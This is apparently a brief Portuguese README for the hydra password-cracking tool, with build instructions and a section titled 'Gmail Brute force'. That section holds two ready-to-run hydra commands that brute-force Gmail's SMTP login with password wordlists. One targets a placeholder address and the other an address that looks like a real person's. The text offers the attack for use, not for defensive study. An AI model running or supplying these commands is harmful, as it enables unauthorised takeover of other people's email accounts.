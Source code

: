 # hy


# COMPILAR

```
./configure
make
make install
```




***Gmail Brute force***

```
hydra -S -l exempo@gmail.com -P caminhodawordlist.txt -v -V -e ns 465 smtp.gmail.com smtp
```

```
 hydra smtp.gmail.com smtp -l marcosvilela@gmail.com -P /root/cupp/wordlist.com-S 465 -v -V
```


```
bash requirements
```
